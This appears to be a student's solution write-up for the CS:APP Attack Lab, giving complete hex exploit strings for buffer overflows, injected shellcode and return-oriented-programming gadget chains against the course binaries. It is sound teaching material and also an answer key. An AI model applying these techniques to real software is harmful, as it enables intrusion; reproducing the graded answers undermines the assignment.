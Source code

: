 # Things to know:
* “Overrunning the buffer typically causes the program state to be corrupted, leading to a memory access error. Your task is to be more clever with the strings you feed CTARGET and RTARGET so that they do more interesting things. These are called exploit strings.”

* if you want to create a byte with a hex value of 0, you need to write it as 00
* Put your answer backward so like 401020  -> 20 10 40 (Little endian vs Big endian)
* Pre allocating memory, subtract rsp
* Assigning value to rsp, adds to rsp
* Code Injection vs Return oriented programming

# Phase 1:
* Figuring out how big the buffer is by looking at
* get buff
* sub    $0x38,%rsp , 0x38 = 56
* Overflow the buffer and rewrite the return address by redirecting it to the address of touch1

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00  //56  zero/padding
9c 12 40 00 00 00 00 00 //address of touch1
```

# Phase 2:
* Look at the stack(it’ll help you understand)
* (Look at hints in the handout) store your cookie into rdi so you can pass it as an argument
mov    $0x14f987af,%rdi
* Than you are going to want to push the address of touch2 and have a return(in a .d file)
pushq  $0x4012c8
retq
You’ll get the byte representation of the assembly code and that’s what you’ll use in your answer.
* If you run getbuff(hence set a breakpoint at getbuf to see what’s happening) and run it with your answer and check what’s in your stack (do x/20x $rsp ) you’ll see that your cookie and push touch2 at first are just passed in as a string so at first it doesn’t matter that much. But then when you get to rsp
* The rsp address is at the top of the stack where your instructions are hence they’ll start being implemented, where you pass the cookie as an argument to touch2.


```
48 c7 c7 af 87 f9 14 68 //cookie
c8 12 40 00 c3 00 00 00 //push touch2
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 0//0 00
78 9c 63 55 00 00 00 00 //rsp hex after callq //address of first machine instruction
//overwrite with our first injected code
```

# Phase 3:
* Convert cookie into a string
* If it is stored in buf, then the next hexmatch may overwrite its stack, but the parent stack of buf is safe. We put the address of touch3 on the top of the parent stack.
* Your injected code should set register %rdi to the address of this string.
* “When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where you place the string representation of your cookie.”
* Rsp from phase 2 is the first thing we read which sends us to our instruction and there it grabs the cookie.

```
48 c7 c7 b8 9c 63 55 68  //  the return address should be rsp from phase 2 +0x40(64 decimal) into rdi is where the address of the string (the location where the code execution address is saved) //moving the cookie to rdi(this is where the cookie was stored previously, past the overflow point at the end of the buffer) plus buffer size+0x8 for the return address and another 0x8 for touch 3
d9 13 40 00 c3 00 00 00 //address of touch3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 9c 63 55 00 00 00 00 //rsp from phase 2//points back to the beginning where your instructions are
31 34 66 39 38 37 61 66 // cookie turn into a string
```


# Phase 4:
* the strategy is to find several instructions/byte sequence in the existing code, these instructions are followed by instructions ret(gadgets)
* Each return is equivalent to jumping from one gadget to another, and then doing so through the constant jump to complete the operation we want.
* Similar logic as phase 2 but we are using return-oriented programming
* Your first gadget will be a popq rax(58),it will pop data from the stack
* Then put your cookie address and store it in rax thanks to gadget 1, then put the cookie into edi (hence mov rax,edi is your second gadget(48 89 c7 c3))
* And then just pass the address of touch2
```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00
7e 14 40 00 00 00 00 00 //gadget 1 popq rax  whatever was put at the top of the stack put into rax,//overwriting the return address with a gadget(that’s how it jumps into the stack)
When it gets a return command it looks at the return address and then it moves the stack pointer down .A return address is like popping. The gadget includes a return and then goes down to the cookie(rsp goes down to the cookie)
af 87 f9 14 00 00 00 00 //cookie Address , put cookie where rax is (stored in rax)
a6 14 40 00 00 00 00 00 //gadget 2 mov rax,edi // there is a c3 at that address
c8 12 40 00 00 00 00 00 //touch2
```


# Phase 5:
* From the moment we move the address of rsp to rax till the address of cookie, there are 9 addresses which are 8 gadgets and the address of touch3, exclude the value read in to rax and each address has 8 bytes.The gap must be 72 bytes, which is equal to the address of 0x48.
* The solution for this is to use ROP (Return Oriented Programming), what ROP does is that since we can't execute our own code, we will look for instructions in the code that do the same thing as what we want. These are called gadgets and by combining these gadgets, we will be able to perform our exploit.
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
da 14 40 00 00 00 00 00 //Mov %rsp, %rax
a6 14 40 00 00 00 00 00//Mov %rax, %rdi
99 14 40 00 00 00 00 00 //pop rax //pop data from the stack
48 00 00 00 00 00 00 00  // 9*8 = 72 =0x48 //6*8  to set up eax into esi
02 15 40 00 00 00 00 00//Movl %eax, %ecx   //89 c1
4b 15 40 00 00 00 00 00//Movl %ecx, %edx //89 ca
1d 15 40 00 00 00 00 00 //Movl %edx, %esi  //89 d6
b1 14 40 00 00 00 00 00//Lea (%rdi, %rsi, 1), %rax putting cookie into rax
a6 14 40 00 00 00 00 00//Mov %rax, %rdi
d9 13 40 00 00 00 00 00//Touch3's address
31 34 66 39 38 37 61 66//Cookie string
```
The first thing to do is to get the current %rsp address and use it to find the string.
Add this address to the offset, here is the function 0x48 just used add_xy
Find a way to put the above value into the %rdi
Follow the previous ret instruction, return touch3 the address
Store the string, for the sake of convenience, we put it to the end


# Return Oriented programming:

Performing code-injection attacks on program RTARGET is much more difficult than it is for CTARGET, because it uses two techniques to thwart such attacks:

* It uses randomization so that the stack positions differ from one run to another. This makes it impossible to determine where your injected code will be located.

* It marks the section of memory holding the stack as nonexecutable, so even if you could set the program counter to the start of your injected code, the program would fail with a segmentation fault.

Fortunately, clever people have devised strategies for getting useful things done in a program by executing existing code, rather than injecting new code. The most general form of this is referred to as return-oriented programming (ROP) [1, 2].
The strategy with ROP is to identify byte sequences within an existing program that consist of one or more instructions followed by the instruction ret. Such a segment is referred to as a gadget. Figure 2 illustrates how the stack can be set up to execute a sequence of n gadgets. In this figure, the stack contains a sequence of gadget addresses. Each gadget consists of a series of instruction bytes, with the final one being 0xc3, encoding the ret instruction. When the program executes a ret instruction starting with this configuration, it will initiate a chain of gadget executions, with the ret instruction at the end of each gadget causing the program to jump to the beginning of the next.

A gadget can make use of code corresponding to assembly-language statements generated by the compiler, especially ones at the ends of functions. In practice, there may be some useful gadgets of this form, but not enough to implement many important operations. For example, it is highly unlikely that a compiled function would have popq %rdi as its last instruction before ret. Fortunately, with a byte-oriented instruction set, such as x86-64, a gadget can often be found by extracting patterns from other parts of the instruction byte sequence.

